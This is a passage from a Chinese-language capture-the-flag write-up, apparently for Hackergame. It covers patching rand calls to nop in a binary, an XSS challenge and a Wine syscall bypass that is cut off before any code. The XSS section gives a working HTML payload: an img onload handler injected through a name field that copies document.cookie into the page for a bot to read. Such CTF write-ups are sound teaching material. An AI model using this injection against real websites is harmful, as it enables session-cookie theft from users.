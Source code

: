 ![](assets/flag-machine-rand.jpg)

&emsp;&emsp;为了防止按钮到处乱跑，需要把这里的两个 `msvcrt.rand` 全部换成 `nop`

&emsp;&emsp;两处替换完成之后，点击「狠心夺取」即可通关

## 微积分计算小练习

&emsp;&emsp;「姓名」一栏的内容会被直接字符串拼接进最终的网页，结合 `bot.py`，可以考虑注入一段脚本，在姓名加载后，将分数一栏替换成 `document.cookie`：

```html
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAAAAAA6fptVAAAACklEQVQIHWNgAAAAAgABz8g15QAAAABJRU5ErkJggg==" onload="document.querySelector('#score').innerHTML = document.cookie"/>
```

## 杯窗鹅影

&emsp;&emsp;[Wine 似乎没有什么很好的手段拦截直接进行的系统调用](https://lwn.net/Articles/824380/)，基于此，我们可以把 syscall 以内联汇编的形式写进可执行文件，两个问都可以通过：
